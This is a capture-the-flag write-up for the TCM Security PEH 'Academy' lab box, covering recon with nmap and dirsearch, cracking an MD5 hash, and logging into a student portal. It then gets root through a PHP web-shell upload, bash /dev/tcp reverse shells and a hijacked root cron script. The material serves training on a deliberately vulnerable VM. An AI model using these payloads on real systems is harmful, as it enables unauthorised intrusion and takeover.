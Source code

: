 ```yaml
---
title: "Academy Box - PEH Capstone TCM Security"
description: "Solution for the Academy Box of Capstone challenges from the PEH course of TCM Security."
summary: "Solution for the Academy Box of Capstone challenges from the PEH course of TCM Security."
date: 2024-02-04
draft: false
tags: ["Web", "CTF", "Linux"]
---
```


------------------------

> Writeup for Academy machine challenge from PEH course of TCM Security

Challenge File: https://drive.google.com/drive/folders/1VXEuyySgzsSo-MYmyCareTnJ5rAeVKeH


Run `sudo netdiscover -r 192.168.0.0/24` before starting the target VM to capture all available devices in subnet \
now start the target VM and wait for new machine IP entry it will be the IP of our target VM.

Before starting the target VM.

![image](md/264f4aa5-62fd-47d0-bb51-88a1fe8211e7.webp)

After starting the target VM.

![image](md/48ec1846-d9e4-4f40-a996-91b68db451f8.webp)


Now that we have the target IP `192.168.0.113` let's run the `nmap`.

```bash
┌──(Jack㉿Sparrow)-[~/Downloads]
└─$  nmap -sC -sV -T5 192.168.0.113 -oA nmap_Academy.txt -Pn
Starting Nmap 7.93 ( https://nmap.org ) at 2024-02-02 13:58 EST
Warning: 192.168.0.113 giving up on port because retransmission cap hit (2).
Nmap scan report for 192.168.0.113
Host is up (0.0050s latency).
Not shown: 993 closed tcp ports (conn-refused)
PORT     STATE    SERVICE       VERSION
21/tcp   open     ftp           vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 1000     1000          776 May 30  2021 note.txt
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:192.168.0.207
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp   open     ssh           OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey:
|   2048 c744588690fde4de5b0dbf078d055dd7 (RSA)
|   256 78ec470f0f53aaa6054884809476a623 (ECDSA)
|_  256 999c3911dd3553a0291120c7f8bf71a4 (ED25519)
80/tcp   open     http          Apache httpd 2.4.38 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.38 (Debian)
1046/tcp filtered wfremotertm
1055/tcp filtered ansyslmd
1434/tcp filtered ms-sql-m
2038/tcp filtered objectmanager
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.39 seconds
```


Here we see that port `21,22,80` are open.

In port 21 Anonymous FTP login is allowed  \
to see what files are present in this ftp we can open `ftp://192.168.0.113/` in windows File Explorer or we can also use curl

![image](md/94033cfd-6173-49d2-bc31-18b3621d137f.webp)

![image](md/8028de5e-668e-4123-8aef-42e27cb07c85.webp)


The note says `The StudentRegno number is what you use for login` which is `10201321` and
we have one password hash `cd73502828457d15655bbd7a63fb0bc8`. use tools like https://crackstation.net/ to crack the hash. \
This is md5 of `student`. \
now we have login credentials `10201321:student` note this for now and let's move to http site.

<br>

`http://192.168.0.113/` is Apache2 Debian Default Page.

![image](md/d0094763-f520-4028-a338-0aca0d6cb604.webp)


There is nothing much to see in this default page so let's do the directory brute force.


```bash
┌──(Jack㉿Sparrow)-[~]
└─$ dirsearch -u http://192.168.0.113/ -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt

  _|. _ _  _  _  _ _|_    v0.4.2
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 30 | Wordlist size: 141672

Output File: /home/kali/.dirsearch/reports/192.168.0.113/-_24-02-04_03-17-49.txt

Error Log: /home/kali/.dirsearch/logs/errors-24-02-04_03-17-49.log

Target: http://192.168.0.113/

[03:17:49] Starting:
[03:18:19] 301 -  319B  - /phpmyadmin  ->  http://192.168.0.113/phpmyadmin/
[03:19:57] 301 -  316B  - /academy  ->  http://192.168.0.113/academy/

Task Completed
```


We found the `/phpmyadmin/` and `/academy/` directories on the `http://192.168.0.113/academy/` page we have one login form.

![image](md/8dcd96ba-f63a-4524-9ea6-95156c8ce0df.webp)


Let's try the login credentials `10201321:student` that we found previously from ftp note.

![image](md/a36b56d4-987e-4e97-834f-f1f0fc105bf4.webp)


It worked we are now logged in. \
On the My Profile page we have file upload functionality.

try uploading simple php shell `<?php system($_REQUEST['cmd']); ?>` and it is not blocked we now have the ability to execute commands on server.

![image](md/08e0c9d1-2522-4e8a-9fc3-4a19c13bc969.webp)


we can get reverse shell by this payload `cmd=bash+-c+"bash+-i+>%26+/dev/tcp/192.168.0.207/9001+0>%261"` \
reference: https://www.revshells.com

![image](md/4dc9b13a-e0a3-4ff4-82fd-5a32fb2b0270.webp)

![image](md/4cf54a48-a797-4c62-ae47-f0e3a7fa91a5.webp)


In the config.php file we have the mysql_password `My_V3ryS3cur3_P4ss` and in the ftp note we show line `I told him not to use the same password everywhere` which implies
that user Grimmie is reusing the same password so we can try to use this password to switch to user Grimmie.

![image](md/a6efd8be-7132-4ee9-86b2-b44bcb917ba6.webp)


looking at crontab we notice that `/home/grimmie/backup.sh` file is running as root and we can modify this file to get root access.

![image](md/ee82ccab-380c-485d-855c-247e8e2e7dcc.webp)


Reverse shell payload to get shell as root:

`echo 'bash -c "bash -i >& /dev/tcp/192.168.0.207/9002 0>&1"' > backup.sh`

![image](md/0c2c4b55-7951-4637-ab07-86077b1ce395.webp)

![image](md/b1a801aa-7b03-4d4d-849a-6a7532c95b22.webp)


Flag:

![image](md/50dbf9b2-9236-4656-95ff-e7747b222a6c.webp)

Happy Hacking

---
